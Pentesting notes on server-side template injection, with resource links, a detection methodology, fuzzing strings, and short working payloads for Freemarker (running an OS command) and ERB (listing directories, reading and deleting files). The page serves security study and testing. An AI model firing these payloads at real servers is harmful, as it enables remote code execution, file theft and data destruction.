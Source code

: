 # Extra Resources
- [SSTI Playlist - Seven Seas Security](https://www.youtube.com/playlist?list=PL1GDzLoRwyVCEG_dnWcQDbDXJSBw7lTOT)
- [James Kettle Presentation](https://portswigger.net/research/server-side-template-injection)
- [Hacktricks - SSTI Payloads](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
- [Gadgets for payloads - SSTI PwnFunction Video](https://www.youtube.com/watch?v=SN6EVIG4c-0)
# What it is
When an attacker can inject a malicious payload through the native template language and it is executed by the server
This happens because user input is concatenated into the template instead of being passed as data
# Context
- Plaintext context
- Code context
# Reconnaissance - Where to find
# Methodology
- Look for user controlled input that is reflected
- Enumerate the template engine being used by testing with multiple payloads
- If the previous step didn't work, try to trigger an error that discloses useful information
- Exploit
## Detect
Fuzz with special characters frequently used in template expressions: 
```
${{<%[%'"}}%\
<%=foobar%>
<%= 7*7 %>
{7*7}
#{7*7}
${7*7}
{{7*7}}
${{7*7}}
[% 7*7 %]
```
Use context-specific approaches:
    - Plaintext context
    - Code context
## Identify
![](/Images/SSTIPayloadTests.png)
- Make the application generate an error. This may disclose useful information to enumerate the template engine being used
# Some Payloads
## Craft payload
Some of these payload may need to be prepended with appropriate characters so they close the template engine syntax correctly. E.g.: `}}`
Some of these payload may need to be url encoded
Use a public payload
For more specific payloads view the resources at the top (Hacktricks and James Kettle's presentation)
## Freemarker
```java
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("id") }
```
## ERB Ruby
```ruby
<%= Dir.entries('/').join(', ') %>
<%= Dir.glob('**file-name').first %>
<%= File.read('/file/path') %>
<%= File.delete('/file/path') %>
```
## Tornado
Generic
```
data}}{{payload-1}}{{payload-2}}
```
For specific payloads see Hacktricks 
